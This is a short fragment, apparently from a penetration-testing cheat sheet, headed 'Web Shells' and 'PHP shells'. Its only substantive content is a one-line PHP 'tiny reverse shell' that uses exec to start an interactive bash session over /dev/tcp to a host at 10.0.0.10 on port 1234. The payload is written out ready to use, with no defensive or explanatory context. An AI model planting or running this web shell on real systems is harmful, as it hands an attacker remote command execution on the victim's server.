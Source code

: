 # Web Shells

## PHP shells

**tiny reverse shell**
```
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
